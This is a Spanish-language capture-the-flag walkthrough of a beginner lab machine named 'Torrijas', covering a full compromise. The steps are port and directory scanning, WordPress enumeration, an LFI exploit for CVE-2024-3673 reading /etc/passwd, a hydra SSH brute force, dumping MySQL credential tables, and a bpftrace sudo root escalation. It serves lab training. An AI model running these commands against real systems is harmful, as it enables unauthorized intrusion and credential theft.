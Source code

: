 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# Torrijas

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.66
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open 192.168.1.66 --min-rate 5000 -n
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH y** el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80,3306 -v 192.168.1.66
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-21 154105.png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-21 154309.png" alt=""><figcaption></figcaption></figure>

Ponemos el dominio **torrija.thl** en `/etc/hosts`. Tras esto realizamos un escaneo de directorios.

```
gobuster dir -u http://192.168.1.66 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,txt,php
```

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-21 155904.png" alt=""><figcaption></figcaption></figure>

Nos llama la atención que hay un **wordpress** por lo que indagamos más en ese directorio.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-21 160040.png" alt=""><figcaption></figcaption></figure>

Enumeramos los usuarios y los plugins con **WPScan**.

```
wpscan --url http://192.168.1.66/wordpress/ --enumerate u,vp
```

<figure><img src="../../.gitbook/assets/image (1266).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Encontramos un usuario pero al realizar fuerza bruta no encuentra la contraseña. Entonces realizo un enumeración de plugins de manera agresiva.

```bash
wpscan --url http://192.168.1.66/wordpress --enumerate ap --force --plugins-detection mixed
```

<figure><img src="../../.gitbook/assets/image (1267).png" alt=""><figcaption></figcaption></figure>

Buscando los dos por Internet nos llama la atención el segundo ya que se puede realizar un **LFI**.

{% embed url="https://notcve.org/view.php?id=CVE-2024-3673" %}

{% @github-files/github-code-block url="https://github.com/Nxploited/CVE-2024-3673" %}

```
python3 CVE-2024-3673.py --url http://192.168.1.66/wordpress --file ../../../../../etc/passwd
```

<figure><img src="../../.gitbook/assets/image (1268).png" alt=""><figcaption></figcaption></figure>

Encontramos dos usuarios llamados **Primo** y **Premo** pero solo encontramos a través de fuerza bruta la contraseña de **Premo**.

```
hydra -l premo -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.66 -t 64
```

<figure><img src="../../.gitbook/assets/image (1269).png" alt=""><figcaption></figcaption></figure>

Nos conectamos con esas credenciales a través de SSH.

```bash
ssh premo@192.168.1.66
```

<figure><img src="../../.gitbook/assets/image (1270).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos SUDO.&#x20;

En este caso, al estar trabajando con una instalación de **WordPress** y con el puerto **3306** (MySQL) expuesto, el siguiente paso será intentar obtener las credenciales de la base de datos. Un archivo crucial en WordPress que suele contener esta información es el `wp-config.php`.

<figure><img src="../../.gitbook/assets/image (1271).png" alt=""><figcaption></figcaption></figure>

Nos conectamos a la base de datos.

```
mysql -u admin -p
```

<figure><img src="../../.gitbook/assets/image (1272).png" alt=""><figcaption></figcaption></figure>

Indagamos que tenemos en la base de datos.

```
show databases;
use wordpress;
show tables;
select * from wp_users;
```

<figure><img src="../../.gitbook/assets/image (1273).png" alt=""><figcaption></figcaption></figure>

Al ser la contraseña hasheada no nos sirve ya que estamos dentro pero probamos si podemos entrar en la base de datos de **root**.

```
mysql -u admin -p
show databases;
use Torrijas;
show tables;
select * from primo;
```

<figure><img src="../../.gitbook/assets/image (1274).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con las credenciales.

<figure><img src="../../.gitbook/assets/image (1275).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/bpftrace/" %}

```
sudo bpftrace -c /bin/sh -e 'END {exit()}'
```

<figure><img src="../../.gitbook/assets/image (1276).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.&#x20;

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
